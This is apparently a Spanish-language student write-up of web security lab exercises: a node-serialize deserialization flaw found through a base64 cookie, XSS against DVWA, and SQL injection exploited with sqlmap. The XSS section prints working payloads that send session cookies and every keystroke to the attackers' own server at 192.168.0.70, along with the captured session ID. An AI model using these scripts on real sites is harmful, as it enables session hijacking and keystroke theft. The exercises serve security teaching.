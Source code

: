 ##### Ej 2
Cuando entramos a la pagina pudimos ver una imagen que describia un sitio en construccion y ademas de eso el sitio setea una cookie profile.
Al principio pensamos que era un tipo de jwt pero finalmente descubrimos que esta encodeada en base64 y obteniendo los siguientes datos:

{"username":"Admin",
"csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}

Ademas, una vez seteada esta cookie el la pagina falla con un error 500 mostrando el siguiente mensaje:

        SyntaxError: Unexpected token F in JSON at position 79
            at JSON.parse (<anonymous>)
            at Object.exports.unserialize (/under/node_modules/node-serialize/lib/serialize.js:62:16)
            at /under/server.js:12:29
            at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
            at next (/under/node_modules/express/lib/router/route.js:137:13)
            at Route.dispatch (/under/node_modules/express/lib/router/route.js:112:3)
            at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
            at /under/node_modules/express/lib/router/index.js:281:22
            at Function.process_params (/under/node_modules/express/lib/router/index.js:335:12)
            at next (/under/node_modules/express/lib/router/index.js:275:10)

Viendo este mensaje notamos que el sitio web usa node.js y modulos de este para serializar datos, ademas podemos ver que probablemete el backend este diseñado con el framework express y por ende con el lenguaje javaScript y por ende datos en forma de Json

El siguiente paso fue ver que pasaba si modificabamos la cookie profile, usando burp cambiamos en la cookie el username por otro string

{"username":"Seguridad",
"csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}
y viendo que en la pagina se mostraba Hello Seguridad.

Buscando informacion sobre la siguiente linea 

        at Object.exports.unserialize (/under/node_modules/node-serialize/lib/serialize.js:62:16)
Y teniendo en la cabeza que podria tener algo que ver con un problema en cuanto a la serializacion encotramos este [link](https://blog.websecurify.com/2017/02/hacking-node-serialize.html)
Pensamos que se podia tratar de una vulnerabilidad en cuanto a la serializacion de node que nos permitiria ejecutar codigo remotamente.

Buscando como poder explotar esta vulnerabilidad encontramos el siguiente [link](https://mars-cheng.github.io/blog/2018/Vulnhub-Temple-of-Doom-1-Write-up/) con un paso a paso sobre como explotar un fallo de seguiridad muy similar al encontrado en esta pagina usando un reverse shell attack y asi es posible obtener permisos de root.


##### Ej 5 

Primero realizamos el ataque basico de robo de cookies de sesion en cada una de las rutas, tanto en dvwa/vulnerabilities/xss_r/ como en /dvwa/vulnerabilities/xss_s/
el ataque lo realizamos primero abriendo un servidor controlado por nosotros con el comando 
        
        python -m SimpleHTTPServer
y luego enviando el siguiente input 

        <script>var i = new Image; i.src = "http://192.168.0.70:8000/"+document.cookie ; </script>

la ruta http://192.168.0.70:8000/ es nuestra ip y el puerto 8000 es donde esta seteado el SimpleHTTPServer

obteniendo como salida:

192.168.0.59 - - [27/Sep/2020 18:31:44] code 404, message File not found
192.168.0.59 - - [27/Sep/2020 18:31:44] "GET /security=low;%20PHPSESSID=v5cco41lqjuufohli3o6v0cvl0;%20acopendivids=swingset,jotto,phpbb2,redmine;%20acgroupswithpersist=nada HTTP/1.1" 404 -

obteniendo asi las cookies de sesion.
en ambas rutas funciona igual con la diferencia de que en /dvwa/vulnerabilities/xss_s/ el comando queda guardado y luego se ejecuta cada vez que se ingresa a esa pestaña.

Finalmente para realizar un ataque que capture las teclas presionadas por un usuario, se nos ocurrio intentar crear un script que envie mediante un post las teclas presionadas y almacenar estas en un archivo .txt 
no encontre una menera facil de hacer un post con el modulo SimpleHTTPServer asi que decidi crear mi propio server.py el cual esta adjuntado. una vez creado el server diseñamos el script que es el siguiente:

        <script type="text/javascript">
                var l = "";        
                document.onkeypress = function (e) {
                        l += e.key;
                var req = new XMLHttpRequest();
                req.open("POST","<http://192.168.0.70:7900/>", true); 			
                req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
                req.send("data=" + l);

                }
        </script>  
basicamente este script mediante  XMLHttpRequest nos envia un post con cada una de las teclas presiondas y las guarda en un archivo data.txt    
##### Ej 3
Para resolver este ejrcicio vimos a que direcciones hacia request la pagina web, y de esta forma vimos que la pagina pedia sus imagenes en la siguiente ruta (server caido)
investigando mas a fondo en esta ruta notamos que por ejeplo podiamos ingresar en la url cosas como (servercaido) obteniendo una imagen en base64 (es decir, contestaba nuestro request) por ende esto indicaba que probablemente la vulnerabilidad que existe en esta pagina web sea una sql injection.

Cuando supimos esto encontramos una herramienta llamada sqlmap la cual nos permitia explotar esta vulnerabilidad y asi poder ver la base de datos de la pagina.

